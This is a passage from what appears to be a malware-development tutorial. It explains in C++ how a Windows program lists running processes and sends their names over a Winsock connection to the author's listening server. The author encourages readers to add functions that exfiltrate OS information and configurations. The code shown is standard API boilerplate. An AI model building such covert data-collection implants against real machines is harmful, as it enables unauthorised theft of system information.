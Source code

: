 Here `OpenProcess` is used to get a handle to the process, the first arguments are the flags 

- **PROCESS_QUERY_INFORMATION**: It is required to retrieve certain information about a process, such as its token, exit code, name, and priority.

- **PROCESS_VM_READ**: It is required to read memory in a process using.

> There are other flags like **PROCESS_ALL_ACCESS** that provide more access than the flags used above, but since we just want to get the names for now we can stick to them

After the call to OpenProcess the variable hProcess will be the handle to the process that was opened, next we pass that handle to `EnumProcessModules`:

```cpp
BOOL EnumProcessModules(
  [in]  HANDLE  hProcess,
  [out] HMODULE *lphModule,
  [in]  DWORD   cb,
  [out] LPDWORD lpcbNeeded
);
```
This API retrieves a handle for each module in the specified process, after we obtain a handle to that module, we can use `GetModuleBaseName` to obtain the name of the process.

> Note: If `EnumProcessModules` is called from a 32-bit application running on WOW64, it can only enumerate the modules of a 32-bit process. If the process is a 64-bit process, this function fails and the last error code is **ERROR_PARTIAL_COPY**.

`GetModuleBaseName` will return the process name in `wcProc` and then at the end of the loop, we send the name over the connection channel.

Now this is just one function to send process information, I highly encourage you to write more functions to exfiltrate data like, OS information, configurations, etc.

# Initializing the connection 

We will be using `WSAStartup` to initialize our connection, but first start a listener on your serve on any port.

```cpp
int WSAStartup(
  [in]  WORD      wVersionRequired,
  [out] LPWSADATA lpWSAData
);
```
This function is part of the Windows Sockets API (Winsock), which is an interface that manages input/output requests for Internet applications in a Windows operating system.

It initializes the Winsock library, allowing a Windows Sockets application to use the Winsock API. It must be the first Winsock function called by an application.

```cpp
 WSADATA wsaData;
 SOCKET ConnectSocket = INVALID_SOCKET;
 struct addrinfo* result = NULL, * ptr = NULL;
 struct addrinfo hints;
 int iResult;

 // Initialize Winsock
 iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
 if (iResult != 0) {
     printf("WSAStartup failed with error: %d\n", iResult);
     return 1;
 }

 ZeroMemory(&hints, sizeof(hints));
 hints.ai_family = AF_UNSPEC;
 hints.ai_socktype = SOCK_STREAM;
 hints.ai_protocol = IPPROTO_TCP;
```